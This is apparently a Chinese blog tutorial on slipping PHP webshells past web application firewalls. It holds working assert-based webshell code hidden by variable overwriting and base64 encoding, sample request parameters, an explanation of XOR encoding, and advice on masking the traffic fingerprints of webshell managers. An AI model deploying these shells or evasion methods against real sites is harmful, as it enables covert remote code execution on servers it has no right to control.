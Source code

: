 # 原创
：  （48.3）【WAF绕过-代码】变量覆盖、加密混淆、异或生成、造轮子

# （48.3）【WAF绕过-代码】变量覆盖、加密混淆、异或生成、造轮子

**目录**

[一、变量覆盖](#%E4%B8%80%E3%80%81%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96)

[1.1、原理：](#1.1%E3%80%81%E5%8E%9F%E7%90%86%EF%BC%9A)

[1.2、原型：](#1.2%E3%80%81%E5%8E%9F%E5%9E%8B%EF%BC%9A)

[1.3、变量覆盖:](#1.3%E3%80%81%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96%3A)

[1.4、URL传参](#1.4%E3%80%81URL%E4%BC%A0%E5%8F%82)

[二、加密混淆](#%E4%BA%8C%E3%80%81%E5%8A%A0%E5%AF%86%E6%B7%B7%E6%B7%86)

[2.1、原理：](#2.1%E3%80%81%E5%8E%9F%E7%90%86%EF%BC%9A)

[2.2、shell文件](#2.2%E3%80%81shell%E6%96%87%E4%BB%B6)

[2.3、加密](#2.3%E3%80%81%E5%8A%A0%E5%AF%86)

[2.4、URL传参](#2.4%E3%80%81URL%E4%BC%A0%E5%8F%82)

[2.5、加密混淆工具](#2.5%E3%80%81%E5%8A%A0%E5%AF%86%E6%B7%B7%E6%B7%86%E5%B7%A5%E5%85%B7)

[三、异或生成](#%E4%B8%89%E3%80%81%E5%BC%82%E6%88%96%E7%94%9F%E6%88%90)

[3.1、原理：](#3.1%E3%80%81%E5%8E%9F%E7%90%86%EF%BC%9A)

[3.2、网址：](#3.2%E3%80%81%E7%BD%91%E5%9D%80%EF%BC%9A)

[四、造轮子](#%E5%9B%9B%E3%80%81%E9%80%A0%E8%BD%AE%E5%AD%90)

[4.1、原因：](#4.1%E3%80%81%E5%8E%9F%E5%9B%A0%EF%BC%9A)

[4.2、方法一：](#4.2%E3%80%81%E6%96%B9%E6%B3%95%E4%B8%80%EF%BC%9A)

[4.3、方法二：](#4.3%E3%80%81%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%9A)

---


## 一、变量覆盖

> 
<h3>1.1、原理：</h3>
把敏感字符传递的参数中，waf能够确定你的代码，但是确定不了你传递的参数值
safedog有变量追踪
简单拆分的话，扫描会直接报马的
<hr/>
<h3>1.2、原型：</h3>
&lt;?php assert($_POST['z'])?&gt;
<hr/>
<h3>1.3、变量覆盖:</h3>
<pre><code>&lt;?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b($_POST['z']);

//?x=b&amp;y=assert
//$a = b
//$$a -&gt;$b 变量引用
//$b= assert
//$b($_POST['z']);---&gt;assert($_POST['z'])

?&gt;</code></pre>
<hr/>
<h3>1.4、URL传参</h3>
URL/1.php?x=b&amp;y=assert
-----------------
(post提交)
z=phpinfo();


### 1.2、原型：

---


### 1.4、URL传参

---


---


## 二、加密混淆

> 
<h3>2.1、原理：</h3>
基于关键字的匹配过滤规则
上传一个附带对应的解密方法，然后上传经过对应加密的执行语句
<hr/>
<h3>2.2、shell文件</h3>
shell.php
<pre><code>&lt;?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b(base64_decode($_POST['z']));
?&gt;</code></pre>
<hr/>
<h3>2.3、加密</h3>
对要执行的语句加密


<hr/>
<h3>2.4、URL传参</h3>
URL/1.php?x=b&amp;y=assert
(post提交)
z=cGhwaW5mbygpOw==


### 2.2、shell文件

---


### 2.4、URL传参

> 
<h3>2.5、加密混淆工具</h3>
[【WAF绕过-加密混淆】php代码加密混淆<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/124874012?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/124874012?spm=1001.2014.3001.5501)


---


---


## 三、异或生成

> 
<h3>3.1、原理：</h3>
定义：两个值相同时，返回false，否则返回true
XOR有一个特点：如果对一个值连续做两次 XOR，会返回这个值本身。
<hr/>
最适合用于简易加解密运算
原理是：数A和数B进行异或运算生成数C，如果将C和B进行异或运算则C又会还原为A


> 
<h3>3.2、网址：</h3>
[异或运算加密/解密 - 一个工具箱 - 好用的在线工具都在这里！ (atoolbox.net)<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>http://www.atoolbox.net/Tool.php?Id=857](http://www.atoolbox.net/Tool.php?Id=857)<img alt="" height="538" src="https://img-blog.csdnimg.cn/2c9cd85aa1404e60b681f0225e071b4e.png" width="1200"/>



---


---


## 四、造轮子

> 
<h3>4.1、原因：</h3>
菜刀、蚁剑、冰蝎的指纹在WAF都有，使用会被识别拦截
<hr/>
<h3>4.2、方法一：</h3>
修改工具的特征信息
<h3>4.3、方法二：</h3>
自己写数据包，就不会有指纹特征，就能实现相应的功能


### 4.2、方法一：
